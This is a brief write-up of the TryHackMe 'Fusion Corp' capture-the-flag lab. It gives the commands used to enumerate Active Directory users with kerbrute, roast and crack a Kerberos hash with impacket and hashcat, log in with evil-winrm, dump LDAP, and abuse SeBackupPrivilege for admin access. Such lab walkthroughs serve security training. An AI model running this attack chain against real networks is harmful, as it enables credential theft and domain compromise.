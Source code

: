 # Fusion Corp

https://tryhackme.com/room/fusioncorp

A multi-stage room, not too hard.

1. Enum showed standard windows ports, a domain (fusion.corp) and a website on 80.
2. Under 80, /backup/ contained 'employees.ods', which revealed a list of user names
3. I used this list with kerbrute userenum: `python3 kerbrute.py -domain fusion.corp -dc-ip 10.10.224.114 -users ~/thm/fusioncorp/usernames.txt`, which revealed the user `lparker` but no pre-auth hash
4. I got a better hash with impacket: `python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.224.114 -no-pass -format hashcat fusion.corp/lparker`
5. I cracked this hash with hashcat: `E:\PENTEST\hashcat>hashcat32 -m 18200 -a 0 hash rockyou.txt`
6. This allowed me to login via evil-winrm: `evil-winrm -i 10.10.87.193 -u lparker -p 'password'`, and get the first flag
7. lparker had very little rights, so I used the creds to instead enumerate ldap: `ldapdomaindump 10.10.224.114 -u 'fusion.corp\lparker' -p 'password'`.
8. Under the domain users, this showed `jmurphy` and the password in the user description. I used evil-winrm again to get the second flag.
9. jmurphy had the SeBackupPrivilege, which allowed me to use https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1 to gain ownership of the Admin user directory. This got me the final flag.

Tools used:

- impacket
- kerbrute: https://github.com/ropnop/kerbrute
- evil-winrm
- hacktricks for guides on ldap enum: https://book.hacktricks.xyz/pentesting/pentesting-ldap
- hacktricks for guides on privileges: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
- https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1

I didn't get system, because I didn't need it for the flag, but it should have been easy with system full control access.
